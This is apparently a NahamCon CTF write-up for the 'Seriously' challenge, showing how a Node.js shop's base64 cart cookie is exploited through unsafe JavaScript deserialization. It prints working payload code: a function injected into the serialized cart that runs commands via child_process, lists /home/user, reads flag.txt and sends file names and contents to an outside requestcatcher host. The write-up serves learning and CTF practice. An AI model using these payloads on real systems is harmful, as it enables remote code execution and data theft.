 # NahamCon CTF - Seriously

So we have five "plant stores" and we need to hack it to get the flag.
At first I thought the challenge was somehow related to escalate privileges among them.

There are two hints here:
* The message on the checkout option, saying it was prohibited due to security issues.
* The name of the game itself ("seriously"), as I found later.

I tried all the stores to see if the checkout was open on any of them, but they were not (and stores 3 and 4 were down).

The **/cart** URL used a cookie called also **cart**, to store the items, encoded in base64:
**Base64:**
```
eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJIYXdvcnRoaW9wc2lzIGF0dGVudWF0YSIsInByaWNlIjoxOS45OSwiY291bnQiOjF9LCIyIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0K`
```
**Decoded:** 
```
{"items":{"0":{"name":"Haworthiopsis attenuata","price":19.99,"count":1},"2":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}
````
OK, using a 404 error, we see it's a node application, so I found a Javascript deserialization vulnerability.

### First Try: Shell

Using a sample payload online, I tried to call OS commands.
The snippet bellow is the same structure of the cart, but I changed the name to an evil function.

```
evil = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){
            require('child_process').exec('ls / >> nep10.txt', function(error, stdout, stderr) { return 'Neptunian'; });
        }, 
        price: 14.99, count: 1,  },
  }
}**()**
```

And the plan is to serialize the evil object to send to the server.

Something about the **()** above: if you put the parentheses in this constructor, it will run the function, and the serialized version will get only the result.
I had to put the **()** it after serializing for it to run only after deserialization.
Automated the replace to test faster.

And testing:
```
let buff = new Buffer.from(serialize.serialize(evil));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```

Now I had a payload.
It worked locally, but I couldnt make the exec command work (tried with curl instead of **ls**).

### The Real Deal: Owning with Javascript

I dont really need a shell when I can run Javascript code on the server.
So lets change the Evil object.

The plan is to send result of the commands to **requestcatcher**.
The error hints that the application is in the **/home/user**, so the plan is to list the files and see if the flag is there.

```
// Kept the basic structure of the cart
// First: listed files on /home/user dir
// After: get flag in base64 format to send (owned!)
evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};
```

And after that:
![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

So, let's include a block to get the flag content and send it, using base64 to avoid any problems:

```
var fs = require('fs');
fs.readFile('/home/user/flag.txt', function(err, data) {
    let base64flag = Buffer.from(data).toString('base64');

    require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
});
```

And something happens:
![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

Decodes to:

```
$ echo "ZmxhZ3tzZXJpb3VzbHlfZGVzZXJpYWxpemF0aW9uX3dpdGhfcGxhbnRzfQo=" | base64 -d
flag{seriously_deserialization_with_plants}
```

Owned!

```
### Final Payload

evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            fs.readFile('/home/user/flag.txt', function(err, data) {
                let base64flag = Buffer.from(data).toString('base64');

                require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
              });

            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};

// Lets serialize the payload
let buff = new Buffer.from(serialize.serialize(evil2));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```